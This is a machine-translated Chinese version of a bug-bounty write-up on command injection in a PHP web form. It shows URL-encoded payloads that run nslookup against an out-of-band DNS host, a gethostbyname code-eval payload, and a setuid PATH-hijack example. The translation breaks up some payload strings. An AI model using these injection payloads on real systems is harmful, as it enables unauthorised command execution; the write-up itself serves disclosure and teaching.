

# 当我发现多个命令注入时

> 原文：<https://infosecwriteups.com/when-i-found-multiple-command-injection-ad891d3ad9e6?source=collection_archive---------1----------------------->

# 大家好，

我通过捕获 DNS A 请求发现了一个命令注入，这发生在输入数据被解释为操作系统命令时。

这是一个非常关键的问题，应该尽快解决。

在没有指定绝对路径的情况下执行命令可能会允许攻击者通过更改$PATH 或程序执行环境的其他方面来执行恶意的二进制文件。

这个 bug 的影响是:

攻击者可以在系统上执行任意 PHP 代码。攻击者还可能执行任意系统命令

我是如何发现

我发现了随机用户输入表单(param=)

在 param 中放了很多东西之后，我尝试= &+nslookup+cxx 8 nlugxbkajjeguq 7 iwpzsdbxnyfj 5 o-a 6 ssjqlda . r87 . me & ' \ " ` 0 & nslookup+cxx 8 nlugxbkajjeguq 7 iwpzsdbxnyfj 5 o-a 6 ssjqlda . r87 . me & ` '(带解码)



像这样:= % 2526% 2 bnslookup % 2 bcx 8 nlugxbqajjeguq 7 iwpzsdbxnyfj 5 o-a 6 ssjqlda . r 87 . me % 2526% 2527% 255 c % 2522% 25600% 2526 nslookup % 2 bcx 8 nlugxbqajjeguq 7 iwpzsdbxnyfj 5 o-a 6 ssjqlda . r 87 . me % 2526%

然后我得到了

< pre >服务器:xyz
地址:172 . x . x . x</pre>
/p>
</div>
</div>

然后我在同一个网站找到了代码评估

xyz.php？name = % 2 bgethostbyname(trim(' cxx 8 nlugxbab 9 VH _ wuarecplh 8 zuzv 9 vyp 5 zxftg '。VMA . r87 . me ')% 3b % 2f % 2f

额外额外额外…..(理论上只是为了增加报告长度)


布雷登·安德森在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

不要接受来自最终用户的会被直接解释为源代码的输入。如果这是业务需求，验证应用程序上的所有输入，并删除所有可能被直接解释为 PHP 源代码的数据。

利用这个漏洞并不困难。PHP 是一种高级语言，有大量的可用资源。成功利用该漏洞需要编程语言知识、访问源代码或生成用于此类攻击的源代码的能力，以及最低限度的攻击技能。

**解释**

命令注入漏洞有两种形式:

-攻击者可以更改程序执行的命令:攻击者显式地控制命令是什么。

-攻击者可以改变命令执行的环境:攻击者隐式控制命令的含义。

在这种情况下，我们主要关注第二种情况，在这种情况下，攻击者可以通过更改环境变量或在搜索路径的早期插入恶意的可执行文件来改变命令的含义。这种类型的命令注入漏洞发生在以下情况:

1.攻击者修改应用程序的环境。

2.应用程序在没有指定绝对路径或验证正在执行的二进制文件的情况下执行命令。

3.通过执行该命令，应用程序为攻击者提供了攻击者无法获得的特权或能力。

演示当攻击者改变命令的解释方式时会发生什么。该代码来自一个基于网络的 CGI 工具，它允许用户更改他们的密码。NIS 下的密码更新过程包括运行`/var/yp`目录下的`make`。注意，由于程序更新密码记录，它已经安装了`setuid root`。

程序调用`make`如下:

```
**system("cd /var/yp && make &> /dev/null");**
```

本例中的命令是硬编码的，因此攻击者无法控制传递给`system()`的参数。然而，由于程序没有为`make`指定绝对路径，并且在调用命令之前没有清理其环境变量，攻击者可能会修改他们的`$PATH`变量以指向名为`make`的恶意二进制文件，并从 shell 提示符执行 CGI 脚本。由于程序已经安装了`setuid root`，攻击者的`make`版本现在以`root`权限运行。

环境在程序中系统命令的执行中起着重要的作用。像`system()`和`exec()`这样的函数使用调用它们的程序的环境，因此攻击者有潜在的机会影响这些调用的行为。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)